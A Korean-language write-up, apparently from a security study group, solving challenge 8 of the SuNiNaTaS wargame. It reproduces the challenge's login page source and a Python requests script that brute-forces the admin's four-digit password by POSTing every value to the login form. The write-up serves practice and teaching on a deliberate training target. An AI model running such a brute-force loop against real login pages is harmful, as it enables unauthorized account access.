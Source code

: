 ```yaml
---
layout: default
title: Day17
nav_order: 3

parent: Develop Project - W3
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > http://suninatas.com/

## challenge 8

![image-20220511183914297](../img/image-20220511183914297.png)

가장 기초적인 브루트포싱 관련 문제임을 페이지를 보자마자 직감했다.  
그리고 페이지 소스를 확인하였더니 아래와 같았다.


```html
<!DOCTYPE html>

<html>
<head>
    <title>Game 08</title>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="shortcut icon" href="/static/img/game.ico" />
</head>
<body>
    <form method="post" action="./web08.asp">
        <br>
        <br>
        <br>
        <br>
        <br>
        <br>
        <br>
        <table width="240" cellpadding="0" cellspacing="0" align="center">
            <tr height="30">
                <td width="50%" class="table_top" align="center">
                    <input type="button" name="main_btn" value="main" style="width: 60" onclick="location.href = '/'"></td>
                <td width="50%" class="table_top" align="center">
                    <input type="button" name="main_btn" value="Back" style="width: 60" onclick="history.back()"></td>
            </tr>
            <tr height="30" class="table_main">
                <td width="120" align="center" bgcolor="cccccc"><font size="2"><b>ID</b></font></td>
                <td width="120" align="center" bgcolor="cccccc">
                    <input type="text" name="id" style="width: 90"></td>
            </tr>
            <tr height="30" class="table_main">
                <td align="center" bgcolor="cccccc"><font size="2"><b>PW</b></font></td>
                <td align="center" bgcolor="cccccc">
                    <input type="password" name="pw" style="width: 90" maxlength="4"></td>
            </tr>
            <tr height="30">
                <td colspan="2" align="center" class="table_top" bgcolor="cccccc">
                    <input type="button" name="btn" value="Login" onclick="submit()" size="20"></td>
            </tr>
            <tr class="table_main" height="30">
                <td colspan="2" align="center" bgcolor="cccccc">Password Incorrect!</td>
            </tr>
        </table>
    </form>
</body>
</html>


<!-- Hint : Login 'admin' Password in 0~9999 -->
<!-- M@de by 2theT0P -->

```

힌트에서도 의미하듯이 브루트포싱 문제 같았고 기존에 알고 있던 파이썬의 request 패키지를 이용하여 POST 형식으로 요청 및 응답을 진행하기로 했다. 또한 내가 전달한 비밀번호가 맞는지 판별하는 기준을 " Incorrect! " 단어로 지정함으로써 응답 패킷에 해당 단어가 없으면 정답인 것으로 했다.

사용한 코드는 아래와 같다

```python
import requests
url = 'http://suninatas.com/challenge/web08/web08.asp'

for i in range(1,10000):
	params = {
		'id':'admin',
		'pw':str(i)
	}
	response = requests.post(url,params)
	if 'Incorrect' in response.text:
		print(str(i))
	else:
		print(str(i))
		break
```

POST 방식으로 전달할 때에는 위와 같이 파라미터값을 설정하여 보낸다.  
이 때 웹 페이지에서 `name` 속성으로 지정한 값이 `id`와 `pw` 임을 확인하고 해당 속성 값을 전달해야 한다.  
만약 GET 방식이였다면 url에 포함하여 전달하였을 것이다.
